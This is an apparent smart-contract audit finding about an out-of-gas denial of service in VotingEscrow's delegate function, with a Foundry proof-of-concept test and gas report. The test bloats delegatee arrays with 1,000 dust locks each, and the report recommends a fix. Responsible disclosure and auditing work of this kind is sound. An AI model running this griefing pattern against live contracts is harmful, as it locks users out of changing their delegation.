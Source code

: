 Warm Denim Mantis

Medium

# `MAX_DELEGATES` not sufficient to prevent potential out of gas DoS when switching between popular delegatees in `VotingEscrow::delegate`

## Summary
Calling `VotingEscrow::delegate` requires looping over an array of all the delegates of your current delegatee and also your new delegatee. While the `MAX_DELEGATES` check attempts to prevent this, it doesn't consider the scenario the arrays of both the current delegatee and future delegatee are large, but under `MAX_DELEGATES` (1024). This means that the gas consumed when transferring your delegate choice from one popular delegatee to another could be larger than the block gas limit on most EVM chains (30mil), making the transaction impossible to complete.

## Vulnerability Detail
**Proof Of Concept**
Add the following test to see the gas useage when Alice tries to switch her delegation choice from one address with 1,000 delegates to another with 1,000 delegates:

```solidity
    function test_Toad_DelegateChangeOOGDoS() public {
        address alice = makeAddr("alice");
        address aliceFirstDelegatee = makeAddr("delegate one");
        address aliceSecondDelegatee = makeAddr("delegate two");

        // Get Alice LP tokens
        DAI.mint(alice, 100 ether);
        FLOW.mint(alice, 100 ether);
        vm.startPrank(alice);
        DAI.approve(address(router), 100 ether);
        FLOW.approve(address(router), 100 ether);
        router.addLiquidity(
            address(FLOW),
            address(DAI),
            false,
            100 ether,
            100 ether,
            0,
            0,
            alice,
            block.timestamp
        );
        flowDaiPair.approve(address(escrow), type(uint256).max);
        escrow.create_lock(flowDaiPair.balanceOf(alice), 31 days);

        // Alice first delegates to aliceFirstDelegatee
        escrow.delegate(aliceFirstDelegatee);
        vm.stopPrank();

        // Add dummy delegates to both delegates
        // delegatorOne will give aliceFirstDelegatee 1000 delegates
        address delegatorOne = makeAddr("delegatorone");
        address delegatorTwo = makeAddr("delegatortwo");
        DAI.mint(delegatorOne, 100 ether);
        FLOW.mint(delegatorOne, 100 ether);
        vm.startPrank(delegatorOne);
        DAI.approve(address(router), 100 ether);
        FLOW.approve(address(router), 100 ether);
        router.addLiquidity(
            address(FLOW),
            address(DAI),
            false,
            100 ether,
            100 ether,
            0,
            0,
            delegatorOne,
            block.timestamp
        );
        flowDaiPair.approve(address(escrow), type(uint256).max);
        for(uint256 i; i < 1000; i++) {
            escrow.create_lock(1, 31 days);
        }
        escrow.delegate(aliceFirstDelegatee);
        vm.stopPrank();

        // delegatorTwo will give aliceSecondDelegatee 1000 delegates
        DAI.mint(delegatorTwo, 100 ether);
        FLOW.mint(delegatorTwo, 100 ether);
        vm.startPrank(delegatorTwo);
        DAI.approve(address(router), 100 ether);
        FLOW.approve(address(router), 100 ether);
        router.addLiquidity(
            address(FLOW),
            address(DAI),
            false,
            100 ether,
            100 ether,
            0,
            0,
            delegatorTwo,
            block.timestamp
        );
        flowDaiPair.approve(address(escrow), type(uint256).max);
        for(uint256 i; i < 1000; i++) {
            escrow.create_lock(1, 31 days);
        }
        escrow.delegate(aliceSecondDelegatee);
        vm.stopPrank();

        // When Alice tries to switch delegates the tx will run out of gas
        vm.prank(alice);
        escrow.delegate(aliceSecondDelegatee);
    }
```

Running `forge test --mt DelegateChangeOOGDoS --gas-report` will return the following numbers for the `delegate` function:
```solidity
| Function Name     | min        | avg      | median   | max      | # calls |
| delegate          | 134443     | 27862815 | 29594091 | 52128636 | 4       |
```

As you can see, the maximum gas used when calling `VotingEscrow::delegate` hits 52 million, significantly above the standard block gas limit of 30 million.

Although it might be argued that the system does not expect there to be this large number of delegates, the proof of concept also highlights how easy it would be for a malicious user to bloat out a popular delegatees array of delegates by calling `VotingEscrow::create_lock` with single wei amounts.

## Impact
This issue means that users will be unable to change delegation between two popular delegatees without first delegating someone with very delegates, and then switching to their actual desired delegatee afterwards in two separate transactions.

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1431

## Tool used

Manual Review

## Recommendation
It is likely necessary that the protocol adds a minimum lock amount in `VotingEscrow` to remove the economic viability of this attack method.